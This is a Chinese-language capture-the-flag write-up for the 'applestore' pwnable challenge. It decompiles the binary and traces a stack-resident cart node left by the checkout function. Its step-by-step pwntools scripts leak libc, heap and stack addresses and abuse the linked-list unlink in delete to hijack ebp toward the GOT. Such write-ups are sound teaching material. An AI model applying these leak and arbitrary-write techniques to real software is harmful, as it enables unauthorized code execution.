







applestore题目链接
这是一道我看着看着想哭的题目，真的太绕了。
1 2 3 4 5 6 7 8 9 10 $ file applestore applestore: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=35f3890fc458c22154fbc1d65e9108a6c8738111, not stripped $ checksec applestore [*] '/mnt/hgfs/vmshare/applestore/applestore' Arch: i386-32-little RELRO: Partial RELRO Stack: Canary found NX: NX enabled PIE: No PIE (0x8048000)
可以得到如下信息：
32位二进制程序，动态链接，没有去符号表
got表可写
开启栈不可执行，并有canary
没有开启地址随机化
main函数中，前两个函数时设置超时的，60秒程序就timeout了。
memset将全局变量mycart的16个字节全部初始化为0。
menu函数中做一些信息打印。从代码中可以看到，有6个选项。
handler函数中会进行一些处理。其中handler函数是重点，接下来我们对其中的每个函数详细分析。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 int __cdecl main (int argc, const char **argv, const char **envp) signal(14 , timeout); alarm(0x3C u); memset (&myCart, 0 , 0x10 u); menu(); return handler(); } int menu () puts ("=== Menu ===" ); printf ("%d: Apple Store\n" , 1 ); printf ("%d: Add into your shopping cart\n" , 2 ); printf ("%d: Remove from your shopping cart\n" , 3 ); printf ("%d: List your shopping cart\n" , 4 ); printf ("%d: Checkout\n" , 5 ); return printf ("%d: Exit\n" , 6 ); } unsigned int handler () char which_phone; unsigned int v2; v2 = __readgsdword(0x14 u); while ( 1 ) { printf ("> " ); fflush(stdout ); my_read(&which_phone, 0x15 u); switch ( atoi(&which_phone) ) { case 1 : list (); break ; case 2 : add(); break ; case 3 : delete (); break ; case 4 : cart(); break ; case 5 : checkout(); break ; case 6 : puts ("Thank You for Your Purchase!" ); return __readgsdword(0x14 u) ^ v2; default : puts ("It's not a choice! Idiot." ); break ; } } }
这个函数没什么好关注的，就是很多条打印信息，将苹果商店里有的商品及价格展示给我们。
1 2 3 4 5 6 7 8 9 int list () puts ("=== Device List ===" ); printf ("%d: iPhone 6 - $%d\n" , 1 , 199 ); printf ("%d: iPhone 6 Plus - $%d\n" , 2 , 299 ); printf ("%d: iPad Air 2 - $%d\n" , 3 , 499 ); printf ("%d: iPad Mini 3 - $%d\n" , 4 , 399 ); return printf ("%d: iPod Touch - $%d\n" , 5 , 199 ); }
add函数的主要逻辑是将我们选择的商品添加进购物车。此函数看上去比较多，涉及5个case分支。实际只需关注create和insert两个函数功能。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 unsigned int add () _DWORD *v1; char nptr; unsigned int v3; v3 = __readgsdword(0x14 u); printf ("Device Number> " ); fflush(stdout ); my_read(&nptr, 0x15 u); switch ( atoi(&nptr) ) { case 1 : v1 = (_DWORD *)create("iPhone 6" , 199 ); insert(v1); goto LABEL_8; case 2 : v1 = (_DWORD *)create("iPhone 6 Plus" , 299 ); insert(v1); goto LABEL_8; case 3 : v1 = (_DWORD *)create("iPad Air 2" , 499 ); insert(v1); goto LABEL_8; case 4 : v1 = (_DWORD *)create("iPad Mini 3" , 399 ); insert(v1); goto LABEL_8; case 5 : v1 = (_DWORD *)create("iPod Touch" , 199 ); insert(v1); LABEL_8: printf ("You've put *%s* in your shopping cart.\n" , *v1); puts ("Brilliant! That's an amazing idea." ); break ; default : puts ("Stop doing that. Idiot!" ); break ; } return __readgsdword(0x14 u) ^ v3; }
create函数中申请一个16字节大小的堆，并将该堆块分成4份。第03字节存放asprintf申请的堆空间地址（该新申请的堆中存放的是手机型号的字符串）。第47字节存放手机的价格。剩余8个字节目前存放的是0。随后将这个堆块的地址返回给上一层，上一层将该地址传递给insert。
1 2 3 4 5 6 7 8 9 10 11 char **__cdecl create (int p_type, char *p_money) char **v2; v2 = (char **)malloc (0x10 u); v2[1 ] = p_money; asprintf(v2, "%s" , p_type); v2[2 ] = 0 ; v2[3 ] = 0 ; return v2; }
create的堆块和asprintf生成的堆块关系如下图：

insert函数中，将上一步的堆块和全局变量mycart连接起来，组成如下图1.2.2.2-1的关系。
1 2 3 4 5 6 7 8 9 10 11 12 int *__cdecl insert (int *info_loc) int *result; _DWORD *i; for ( i = &myCart; i[2 ]; i = (_DWORD *)i[2 ] ) ; i[2 ] = info_loc; result = info_loc; info_loc[3 ] = (int )i; return result; }
图1.2.2.2-1

当add第二部手机进购物车的时候，就会生成如图1.2.2.2-2的关系：

可以看出，添加进购物车的手机信息都被串成了双链表的形式。因此后续的delete和cart就是双链表删除和遍历的操作。
delete函数的功能主要是，根据我们输入的编号，将购物车中对应的商品删除。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 unsigned int delete () signed int v1; _DWORD *v2; int v3; int v4; int v5; char nptr; unsigned int v7; v7 = __readgsdword(0x14 u); v1 = 1 ; v2 = (_DWORD *)dword_804B070; printf ("Item Number> " ); fflush(stdout ); my_read(&nptr, 0x15 u); v3 = atoi(&nptr); while ( v2 ) { if ( v1 == v3 ) { v4 = v2[2 ]; v5 = v2[3 ]; if ( v5 ) *(_DWORD *)(v5 + 8 ) = v4; if ( v4 ) *(_DWORD *)(v4 + 12 ) = v5; printf ("Remove %d:%s from your shopping cart.\n" , v1, *v2); return __readgsdword(0x14 u) ^ v7; } ++v1; v2 = (_DWORD *)v2[2 ]; } return __readgsdword(0x14 u) ^ v7; }
cart函数的功能是打印我们购物车中已经存在的商品，并且计算购物车中商品的总额，最后将总额返回。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 int cart () signed int v0; signed int v2; int v3; _DWORD *i; char buf; unsigned int v6; v6 = __readgsdword(0x14 u); v2 = 1 ; v3 = 0 ; printf ("Let me check your cart. ok? (y/n) > " ); fflush(stdout ); my_read(&buf, 0x15 u); if ( buf == 'y' ) { puts ("==== Cart ====" ); for ( i = (_DWORD *)dword_804B070; i; i = (_DWORD *)i[2 ] ) { v0 = v2++; printf ("%d: %s - $%d\n" , v0, *i, i[1 ]); v3 += i[1 ]; } } return v3; }
checkout函数，顾名思义，就是结账的地方。不过这里不管你买多少，都只会输出让你下次再结账的提示。
不过我们可以看到，这里有个if分支。当cart的返回值（购物总价值）为7174美元时，就会弹出一个”一美元买iphone 8”的提示。并且调用了asprintf和insert两个函数，将一美元的iphone加入购物车列表中，最后将购物车总价值改为7175.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 unsigned int checkout () int v1; char *v2; int v3; unsigned int v4; v4 = __readgsdword(0x14 u); v1 = cart(); if ( v1 == 7174 ) { puts ("*: iPhone 8 - $1" ); asprintf(&v2, "%s" , "iPhone 8" ); v3 = 1 ; insert(&v2); v1 = 7175 ; } printf ("Total: $%d\n" , v1); puts ("Want to checkout? Maybe next time!" ); return __readgsdword(0x14 u) ^ v4; }
这里有一个很奇怪的点，跟add函数中添加一部手机的操作不一样。
add函数中是申请一块堆内存用于存放加入购物车的手机信息
而iphone 8的信息是存在栈空间V2处的，而这个V2又会被加入到之前的链表中。因此一个栈空间地址被写入了堆中，而栈是不断在变化的，因此就出现了一段可能被控制的内存，即V2附近。
由以上代码中的信息，我们可以得到如下图所示栈空间的布局：

checkout里存放在栈上的iphone 8信息就是本题的漏洞点，因为栈的地址被写入了堆中。
这段栈空间在checkout函数返回后，会被其他函数使用。因此堆中指向的栈空间信息是可能被我们任意更改的。
而本题恰好给我们提供了两个函数：cart和delete，分别用于打印和删除（在链表中执行unlink操作时即任意地址写），可以被我们利用来泄露信息和任意地址写限定值（或限定地址写任意值）。
为了触发漏洞，必须使checkout的iphone 8分支被执行。也就是在执行checkout之前，我们必须add够正好7174美元的手机。手机有4种价格：199, 299, 399, 499。那么怎么搭配这四种价格凑齐7174美元，就需要使用各自的方法了。这里提供几种途径：
Z3求解器
matlab
wolf mathematics
靠各位的智力脑算+手算…
这里借用一下我男票算到的结果：6 * 199 + 20 * 299 = 7174
触发脚本如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 from pwn import *context(arch='i386' ,os='linux' ,log_level='debug' ) myelf = ELF('applestore' ) myps = process(myelf.path) add = '2' delete = '3' cart = '4' checkout = '5' def mysend (op,payload ): myps.sendlineafter('>' ,op) myps.sendlineafter('>' ,payload) for i in range (6 ): mysend(add,'1' ) for i in range (20 ): mysend(add,'2' ) mysend(checkout,'y' ) myps.recv() myps.interactive()
执行该脚本，得到如下结果，进入了1美元买iphone8的分支：
1 2 3 4 5 6 7 8 9 10 11 20: iPhone 6 Plus - $299 21: iPhone 6 Plus - $299 22: iPhone 6 Plus - $299 23: iPhone 6 Plus - $299 24: iPhone 6 Plus - $299 25: iPhone 6 Plus - $299 26: iPhone 6 Plus - $299 *: iPhone 8 - $1 Total: $7175 Want to checkout? Maybe next time! > $
此时，程序回到了handler分支，checkout的函数栈已经被释放，因此iphone 8的栈空间接下来可能存在两种可能：
1、这段栈空间的值没被覆盖，那么iphone 8 的栈块信息是还在的，此时查看链表或者删除链表中该项也许不会有问题。（没有尝试）
2、这段栈空间被分配给了新函数，并且新函数覆盖上了新值。那么此时对整个链表进行查看或删除iphone 8这一项时，就会出现问题。
我们执行4（cart查看购物车），等于将刚刚chekout的栈分配给了cart函数。那么就会出现如下错误（如果使用delete删除最后一项，也会出错）：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 Total: $7175 Want to checkout? Maybe next time! > $ 4 [DEBUG] Sent 0x2 bytes: '4\n' [DEBUG] Received 0x24 bytes: 'Let me check your cart. ok? (y/n) > ' Let me check your cart. ok? (y/n) > $ y ······ 20: iPhone 6 Plus - $299 21: iPhone 6 Plus - $299 22: iPhone 6 Plus - $299 23: iPhone 6 Plus - $299 24: iPhone 6 Plus - $299 25: iPhone 6 Plus - $299 26: iPhone 6 Plus - $299 27: �f\x89p\x0c\x89x\x0e\x05- $-136495008 [*] Got EOF while reading in interactive $
出错的原因是，iphone8相关的数据都存在栈上，在checkout函数退出后，栈上的数据被cart函数的局部变量覆盖。导致cart中遍历访问链表时，访问到iphone 8时访问了非法的地址。
1.2.5节漏洞点中阐述了这个漏洞可以用来泄露信息以及有约束地写。
1、如果我们把iphone 8数据所在的栈空间覆盖为构造的特定数据，就可以打印（泄露）我们想要的内容。比如说libc。（后面需要用到堆地址，所以这里还需泄露堆、以及栈空间的地址）
2、有约束地写，由于got表可写，因此我们一定是利用这个任意地址写去覆写got表项。
如下图所示，精心布置cart函数的栈帧，控制ebp-0x20处连续16个字节的值（在IDA中查看cart函数的伪码可知，ebp-0x20 ~ ebp-0x10空间是输入buf，可控）。如图中红色栈块所示，cart函数打印到栈上的块时，会将got表中puts函数的地址打印出来。并且由于fd不为空，会继续以mycart偏移8字节处作为一个新块，去打印info_loc的地址，此时就将堆的地址泄露出来了（当然也可以像泄露puts地址一样，去泄露堆地址）。
利用泄露puts函数地址的方法，可以逐步泄露其他信息。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 from pwn import *context(arch='i386' ,os='linux' ,log_level='debug' ) myelf = ELF('applestore' ) mylibc = ELF('/lib32/libc-2.23.so' ) myps = process(myelf.path) add = '2' delete = '3' cart = '4' checkout = '5' def mysend (op,payload ): myps.sendlineafter('> ' ,op) myps.sendlineafter('> ' ,payload) for i in range (6 ): mysend(add,'1' ) for i in range (20 ): mysend(add,'2' ) mysend(checkout,'y' ) payload = 'y\x00' +p32(myelf.got['puts' ])+p32(1 )+p32(0x0804B070 )+p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) libc_addr = u32(myps.recv(4 ))-mylibc.symbols['puts' ] myps.recvuntil('28: ' ) heap_addr = u32(myps.recv(4 )) log.warn('libc_addr:0x%x' % libc_addr) log.warn('heap_addr:0x%x' % heap_addr) gdb.attach(myps,'b * 0x08048BEB' ) myps.interactive()
打印出的两个地址如下：
1 2 [!] libc_addr:0xf7d5a000 [!] heap_addr:0x830c490
在执行脚本过程中弹出的gdb调试终端框中，执行vmmap，查看libc的起始地址为0xf7d5a000。使用heap chunks查看第一个堆的地址（0x830c008 - 0x8 = 0x830c000），并对上述打印的堆地址修正（0x830c000 = 0x830c490 - 0x490，已更改到上述代码中）：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 gef➤ vmmap Start End Offset Perm Path 0xf7d5a000 0xf7f07000 0x00000000 r-x /lib32/libc-2.23.so 0xf7f07000 0xf7f08000 0x001ad000 --- /lib32/libc-2.23.so 0xf7f08000 0xf7f0a000 0x001ad000 r-- /lib32/libc-2.23.so 0xf7f0a000 0xf7f0b000 0x001af000 rw- /lib32/libc-2.23.so gef➤ heap chunks Chunk(addr=0x830c008, size=0x408, flags=PREV_INUSE) [0x0830c008 3e 20 3a 20 90 c4 30 08 c7 20 2d 20 24 30 0a 08 > : ..0.. - $0 ..] Chunk(addr=0x830c410, size=0x18, flags=PREV_INUSE) [0x0830c410 90 c4 30 08 c7 00 00 00 28 c4 30 08 68 b0 04 08 ..0.....(.0.h...] Chunk(addr=0x830c428, size=0x18, flags=PREV_INUSE) [0x0830c428 40 c4 30 08 c7 00 00 00 50 c4 30 08 10 c4 30 08 @.0.....P.0...0.] Chunk(addr=0x830c440, size=0x10, flags=PREV_INUSE) [0x0830c440 69 50 68 6f 6e 65 20 36 00 00 00 00 19 00 00 00 iPhone 6........]
第26个节点的fd中存放的是第27个节点的地址（即栈中某个地址）。
接着在1.3.1节中弹出的gdb调试框中，打印esp和ebp的值，分别为0xfffd4038和0xfffd4078。由此我们推测栈空间的地址应该是由0xfffd开头的，然后去打印出的堆chunks中寻找”fd ff”字样。仅在addr=0x830c8a8的chunk中找到一个”0xfffd4058”，这就是一个栈空间的地址。那么该地址值距离堆起始地址的偏移是0x830c8a8 + 0x8 - 0x830c000 = 0x8b0：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 Chunk(addr=0x830c890, size=0x18, flags=PREV_INUSE) [0x0830c890 10 c9 30 08 2b 01 00 00 a8 c8 30 08 40 c8 30 08 ..0.+.....0.@.0.] Chunk(addr=0x830c8a8, size=0x18, flags=PREV_INUSE) [0x0830c8a8 c0 c8 30 08 2b 01 00 00 58 40 fd ff 90 c8 30 08 ..0.+...X@....0.] Chunk(addr=0x830c8c0, size=0x18, flags=PREV_INUSE) [0x0830c8c0 69 50 68 6f 6e 65 20 36 20 50 6c 75 73 00 00 00 iPhone 6 Plus...] Chunk(addr=0x830c8d8, size=0x10, flags=PREV_INUSE) [0x0830c8d8 69 50 68 6f 6e 65 20 38 00 00 00 00 29 00 00 00 iPhone 8....)...] Chunk(addr=0x830c8e8, size=0x28, flags=PREV_INUSE) [0x0830c8e8 b0 a7 f0 f7 b0 a7 f0 f7 00 00 00 00 11 07 02 00 ................] Chunk(addr=0x830c910, size=0x18, flags=) [0x0830c910 69 50 68 6f 6e 65 20 36 20 50 6c 75 73 00 00 00 iPhone 6 Plus...] Chunk(addr=0x830c928, size=0x206e0, flags=PREV_INUSE) ← top chunk gef➤ p $esp $ 1 = (void *) 0xfffd4038 gef➤ p $ebp $ 2 = (void *) 0xfffd4078
由上述内容可知，我们想要的栈空间地址在堆起始地址heap_addr+0x8b0处。因此在2.1.1的python代码中再添加一步，就可以泄露栈空间地址：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 from pwn import *context(arch='i386' ,os='linux' ,log_level='debug' ) myelf = ELF('applestore' ) mylibc = ELF('/lib32/libc-2.23.so' ) myps = process(myelf.path) add = '2' delete = '3' cart = '4' checkout = '5' def mysend (op,payload ): myps.sendlineafter('> ' ,op) myps.sendlineafter('> ' ,payload) for i in range (6 ): mysend(add,'1' ) for i in range (20 ): mysend(add,'2' ) mysend(checkout,'y' ) payload = 'y\x00' +p32(myelf.got['puts' ])+p32(1 )+p32(0x0804B070 )+p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) libc_addr = u32(myps.recv(4 ))-mylibc.symbols['puts' ] myps.recvuntil('28: ' ) heap_addr = u32(myps.recv(4 )) - 0x490 payload = 'y\x00' + p32(heap_addr + 0x8b0 ) + p32(1 ) + p32(0x0804B070 ) + p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) stack_addr = u32(myps.recv(4 )) log.warn('libc_addr:0x%x' % libc_addr) log.warn('heap_addr:0x%x' % heap_addr) log.warn('satck_addr:0x%x' % stack_addr) gdb.attach(myps,'b * 0x08048BEB' ) myps.interactive()
得到如下结果：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 [!] libc_addr:0xf7d48000 [!] heap_addr:0x9603000 [!] satck_addr:0xffb3e518 =========================================================== Chunk(addr=0x9603890, size=0x18, flags=PREV_INUSE) [0x09603890 10 39 60 09 2b 01 00 00 a8 38 60 09 40 38 60 09 .9`.+....8`.@8`.] Chunk(addr=0x96038a8, size=0x18, flags=PREV_INUSE) [0x096038a8 c0 38 60 09 2b 01 00 00 18 e5 b3 ff 90 38 60 09 .8`.+........8`.] Chunk(addr=0x96038c0, size=0x18, flags=PREV_INUSE) [0x096038c0 69 50 68 6f 6e 65 20 36 20 50 6c 75 73 00 00 00 iPhone 6 Plus...] Chunk(addr=0x96038d8, size=0x10, flags=PREV_INUSE) [0x096038d8 69 50 68 6f 6e 65 20 38 00 00 00 00 29 00 00 00 iPhone 8....)...] Chunk(addr=0x96038e8, size=0x28, flags=PREV_INUSE) [0x096038e8 b0 87 ef f7 b0 87 ef f7 00 00 00 00 11 07 02 00 ................] Chunk(addr=0x9603910, size=0x18, flags=) [0x09603910 69 50 68 6f 6e 65 20 36 20 50 6c 75 73 00 00 00 iPhone 6 Plus...] Chunk(addr=0x9603928, size=0x206e0, flags=PREV_INUSE) ← top chunk gef➤ p $esp $ 1 = (void *) 0xffb3e4f8 gef➤ p $ebp $ 2 = (void *) 0xffb3e538
以下图为例，假如我们要删除info_loc_1这个堆块，则必须执行如下几条命令，将其从链表中拆除：
1 2 info_loc_2.bk = info_loc_1.bk info_loc.fd = info_loc_1.fd
如果只用当前要被删除的项info_loc_1来表示，相当于：
1 2 3 4 5 info_loc_1.fd[3 ] = info_loc_1.bk info_loc_a.bk[2 ] = info_loc_1.fd fd[3 ] = bk bk[2 ] = fd

如下图，可以形象地描述任意地址写的两种情况，实际利用使选择任何一种都可。

下面验证一下handler下的函数在被调用时，其ebp是一样的：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 from pwn import *context(arch='i386' ,os='linux' ,log_level='debug' ) myelf = ELF('applestore' ) mylibc = ELF('/lib32/libc-2.23.so' ) myps = process(myelf.path) add = '2' delete = '3' cart = '4' checkout = '5' def mysend (op,payload ): myps.sendlineafter('> ' ,op) myps.sendlineafter('> ' ,payload) for i in range (6 ): mysend(add,'1' ) for i in range (20 ): mysend(add,'2' ) mysend(checkout,'y' ) payload = 'y\x00' +p32(myelf.got['puts' ])+p32(1 )+p32(0x0804B070 )+p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) libc_addr = u32(myps.recv(4 ))-mylibc.symbols['puts' ] myps.recvuntil('28: ' ) heap_addr = u32(myps.recv(4 )) - 0x490 payload = 'y\x00' + p32(heap_addr + 0x8b0 ) + p32(1 ) + p32(0x0804B070 ) + p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) stack_addr = u32(myps.recv(4 )) ebp_addr = stack_addr + 0x20 log.warn('libc_addr:0x%x' % libc_addr) log.warn('heap_addr:0x%x' % heap_addr) log.warn('satck_addr:0x%x' % stack_addr) log.warn('ebp_addr:0x%x' % ebp_addr) gdb.attach(myps,'b * 0x080489C0 \nc \np $ebp' ) mysend(delete,'3' ) myps.interactive()
如下图，发现ebp地址对得上，说明delete函数中的ebp确实跟之前函数的ebp是一致的：
1 2 3 4 5 6 7 8 9 10 11 [!] libc_addr:0xf7d5f000 [!] heap_addr:0x8c89000 [!] satck_addr:0xffa9f2d8 [!] ebp_addr:0xffa9f2f8 ========================================================= [# 0] 0x80489c0 → delete() [# 1] 0x8048c46 → handler() [# 2] 0x8048cf5 → main() ────────────────────────────────────────────────────── $ 1 = (void *) 0xffa9f2f8 gef➤
泄露完ebp地址后，就可以利用delete函数去更改栈空间中存放的old ebp，从而使函数退出时，实现ebp劫持。
劫持到哪儿呢？当然是got表啦！通过IDA查看该二进制程序中got表的地址是0x0804B000至0x0804B040，因此got表底部为0x0804B044。
将ebp劫持到got表底部的验证代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 from pwn import *context(arch='i386' ,os='linux' ,log_level='debug' ) myelf = ELF('applestore' ) mylibc = ELF('/lib32/libc-2.23.so' ) myps = process(myelf.path) add = '2' delete = '3' cart = '4' checkout = '5' def mysend (op,payload ): myps.sendlineafter('> ' ,op) myps.sendlineafter('> ' ,payload) for i in range (6 ): mysend(add,'1' ) for i in range (20 ): mysend(add,'2' ) mysend(checkout,'y' ) payload = 'y\x00' +p32(myelf.got['puts' ])+p32(1 )+p32(0x0804B070 )+p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) libc_addr = u32(myps.recv(4 ))-mylibc.symbols['puts' ] myps.recvuntil('28: ' ) heap_addr = u32(myps.recv(4 )) - 0x490 payload = 'y\x00' + p32(heap_addr + 0x8b0 ) + p32(1 ) + p32(0x0804B070 ) + p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) stack_addr = u32(myps.recv(4 )) ebp_addr = stack_addr + 0x20 for i in range (23 ): mysend(delete,'1' ) gdb.attach(myps,'b * 0x08048A6F \nc \np $ebp' ) payload = '4\x00' + p32(myelf.got['puts' ]) + p32(1 ) + p32(ebp_addr-0xc ) + p32(0x0804B044 ) mysend(delete,payload) myps.interactive()
